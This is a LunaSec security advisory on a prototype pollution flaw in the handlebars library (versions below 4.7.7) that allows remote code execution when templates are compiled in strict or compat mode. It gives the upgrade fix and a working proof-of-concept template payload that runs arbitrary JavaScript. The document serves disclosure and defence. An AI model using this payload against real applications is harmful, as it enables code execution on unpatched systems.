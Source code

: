<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

## What is it?

A [prototype pollution](https://portswigger.net/daily-swig/prototype-pollution-the-dangerous-and-underrated-vulnerability-impacting-javascript-applications)
vulnerability was found in the `handlebars` library, and it has been [reported](https://github.com/handlebars-lang/handlebars.js/issues/1736) that remote code execution (RCE)
is possible with certain conditions.

<!--truncate-->

## Who is impacted?

Anyone who is using the `handlebars` library (`< 4.7.7`) to take user input as a template and format it. The vulnerability

would allow an attacker to gain RCE if the compiler flags `compat` or `strict` are used.

## Permanent Mitigation

Upgrade your `handlebars` version to `>= 4.7.7`.

## How to exploit it

```html
<script src="https://cdn.jsdelivr.net/npm/handlebars@latest/dist/handlebars.js"></script>
<script>
// compile the template
var s = `
{{#with (__lookupGetter__ "__proto__")}}
    {{#with (./constructor.getOwnPropertyDescriptor . "valueOf")}}
        {{#with ../constructor.prototype}}
            {{../../constructor.defineProperty . "hasOwnProperty" ..}}
        {{/with}}
    {{/with}}
{{/with}}
{{#with "constructor"}}
    {{#with split}}
        {{pop (push "alert('Vulnerable Handlebars JS when compiling in strict mode');")}}
        {{#with .}}
            {{#with (concat (lookup join (slice 0 1)))}}
                {{#each (slice 2 3)}}
                    {{#with (apply 0 ../..)}} {{.}} {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}`;
var template = Handlebars.compile(s, { strict: true });
// execute the compiled template and print the output to the console
console.log(template({}));
</script>
```

The above POC demonstrates how to exploit the vulnerability if `strict` mode is used when compiling the template. It is also
possible to exploit this when `compat` mode is used.

### Links
- https://github.com/advisories/GHSA-765h-qjxv-5f44
- https://github.com/handlebars-lang/handlebars.js/issues/1736
- http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html
